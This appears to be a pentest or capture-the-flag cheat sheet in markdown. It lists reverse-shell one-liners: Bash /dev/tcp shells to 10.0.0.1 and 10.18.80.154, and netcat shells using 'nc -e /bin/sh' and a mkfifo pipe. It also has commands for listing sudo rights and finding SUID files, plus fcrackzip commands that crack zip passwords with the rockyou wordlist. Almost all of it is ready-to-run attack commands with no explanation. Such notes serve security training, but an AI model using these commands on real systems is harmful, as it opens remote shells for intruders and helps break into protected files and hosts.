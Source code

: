 ## Reverse Shell
- ### Listing priviledge file 
###### Example :
```
sudo -l 
```


- ### Bash
### 𝚰. Bash TCP
###### Example :
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1  
```
### 𝚰𝚰. Bash exec
 
###### Example :
```
bash -c 'exec bash -i &>/dev/tcp/10.18.80.154/9999 <&1'  
```
 
- ### Finding suid file  
###### Example :
```
find / -perm -u=s -type f 2>/dev/null
```

- ### Netcat
### 𝚰. Netcat /bin/sh 
###### Example :
```
nc -e /bin/sh 10.0.0.1 1234  
```
### 𝚰𝚰. Netcat /tmp/f
 
###### Example :
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.80.154 9999 >/tmp/f  
```



------------------------------------------------------------------------------------------------------------------------------------------------------

# Cryptography

## Fcrackzip
- ###  fcrackzip -b -D -p [wordlist] -v [file name]
```
fcrackzip -b -D -p /usr/share/wordlists/rockyou.txt -v christmaslists.zip
```
- ### Crack Zip password number only
###### Example :
```
fcrackzip -b -v -c '1' -l 1-10 37366.zip -u
```
- ### Cracking password use unzip
###### Example :
```
fcrackzip -v -u -D -p rockyou.txt 6969.zip
```
